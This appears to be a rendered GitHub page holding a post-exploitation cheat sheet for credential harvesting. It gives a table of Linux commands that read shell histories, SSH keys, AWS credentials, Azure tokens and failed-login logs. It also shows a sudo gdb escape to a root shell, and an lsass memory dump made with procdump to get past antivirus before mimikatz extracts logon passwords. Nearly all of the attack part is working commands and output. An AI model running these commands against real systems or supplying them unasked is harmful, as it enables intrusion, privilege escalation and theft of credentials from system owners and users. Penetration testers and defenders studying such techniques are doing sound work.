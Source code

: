 ## Data Collection

### Linux password harvesting

| Target | Command |
| Process list | ps -efw |
| Users enter password in a login prompt by mistake | last -f /var/log/btmp |
| Users enter password in shell | cat /home/\*/.\*history |
| Saved passwords in web files | grep -iR password /var/www |
| SSH keys | cat /home/\*/.ssh/\* |
| History files of various types | cat /home/*/.mysql_history |
| AWS credentials | cat /home/.aws/credentials |
| Azure login token | cat /home/*/.azure/accessTokens.json |

### sudo 

```
azawadow@x33-p98543:~$ sudo -l
Matching Defaults entries for azawadow on x33-p98543:
env_reset, exempt_group=sudo, mail_badpass,
secure_path=/usr/local/sbin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User azawadow may run the following commands on x33-p98543:
(root) /usr/bin/gdb
azawadow@x33-p98543:~$ sudo gdb -q
(gdb) shell
root@x33-p98543:~# id
uid=0(root) gid=0(root) groups=0(root)
root@x33-p98543:~#
```

### Mimikatz

Cannot run directly, but can work on dumped memory by lsass

```
C:\temp> .\mimikatz.exe
Program 'mimikatz.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted software
C:\temp> .\procdump64.exe -accepteula -ma lsass.exe lsass.dmp
ProcDump v9.0 - Sysinternals process dump utility
Copyright (C) 2009-2017 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com
[12:58:44] Dump 1 initiated: C:\temp\lsass.dmp
[13:02:44] Dump 1 writing: Estimated dump file size is 51 MB.
[13:02:45] Dump 1 complete: 51 MB written in 240.7 seconds

---

C:\Tools\mimikatz> .\mimikatz.exe
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full
Opening : 'lsass.dmp' file for minidump...
Session : Interactive from 1
User Name : jwrig
Domain : DELL
msv :
[00000003] Primary
* Username : jwright@hasborg.com
```